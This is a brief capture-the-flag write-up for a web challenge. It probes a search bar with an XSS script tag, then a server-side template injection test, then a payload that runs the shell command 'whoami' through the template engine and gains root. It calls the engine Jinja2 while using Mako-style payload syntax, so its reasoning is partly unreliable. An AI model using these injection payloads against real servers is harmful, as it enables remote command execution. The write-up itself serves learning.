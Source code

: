 ### :dart: SOLUTION :dart:
Firstly, we try XSS to the search bar: `<script>alert(1)</script>
![](./img/1.png)

We can see that it responses. But XSS is used for manipulating the user experience, and there is no user here. So we should another payload (SSTI): `${{7*'7'}}`
![](./img/2.png)

We can see it returns `7777777`, so it is a `JINJA2` type, let try this: `${self.module.cache.util.os.popen('whoami').read()}`
![](./img/3.png)

We are `root` now, so let find the flag.
![](./img/4.png)
